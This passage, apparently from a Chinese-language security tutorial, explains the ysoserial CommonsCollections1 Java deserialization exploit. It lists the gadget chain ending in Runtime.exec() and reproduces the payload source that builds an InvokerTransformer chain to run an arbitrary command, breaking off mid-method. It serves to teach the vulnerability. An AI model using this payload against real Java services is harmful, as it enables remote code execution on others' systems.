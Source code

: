 ->InvokerTransformer.transform()

# 3、ysoserial版POC代码
先贴一个完整Gadget链条
```
Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

```
ysoserial的源POC
```java
public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {

	@Override
    public InvocationHandler getObject(final String command) throws Exception {
		final String[] execArgs = new String[] { command };
		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return handler;
	}

	public static void main(final String[] args) throws Exception {
```